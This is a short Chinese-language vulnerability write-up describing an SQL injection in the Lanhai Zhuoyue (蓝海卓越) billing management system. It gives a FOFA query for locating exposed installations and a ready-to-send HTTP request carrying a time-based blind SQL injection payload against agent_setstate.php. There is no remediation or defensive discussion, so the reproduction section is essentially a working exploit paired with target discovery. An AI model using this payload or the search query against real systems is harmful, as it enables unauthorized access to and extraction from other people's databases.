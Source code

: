 # 蓝海卓越计费管理系统agent_setstat存在SQL注入漏洞

# 一、漏洞简介
蓝海卓越计费管理系统agent_setstat存在SQL注入漏洞

# 二、影响版本
+ 蓝海卓越 计费管理系统

# 三、资产测绘
+ fofa`title=="蓝海卓越计费管理系统"`
+ 特征

![1716136162798-aa34ed6f-ea20-43f2-99a7-dba6a1e626c9.png](./img/ILj6pxbgPBiUNxBM/1716136162798-aa34ed6f-ea20-43f2-99a7-dba6a1e626c9-994839.png)

# 四、漏洞复现
```plain
GET /agent_setstate.php?id=1+AND+(SELECT+4964+FROM+(SELECT(if(length(database())=6,sleep(3),1)))uQqn) HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/116.0
Content-Length: 161
```

![1716367639326-aee08e08-c3d0-4b5d-ac2d-e77844bafdce.png](./img/ILj6pxbgPBiUNxBM/1716367639326-aee08e08-c3d0-4b5d-ac2d-e77844bafdce-351977.png)





> 更新: 2024-05-23 12:33:24  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/lgkwcrdalag9xge0>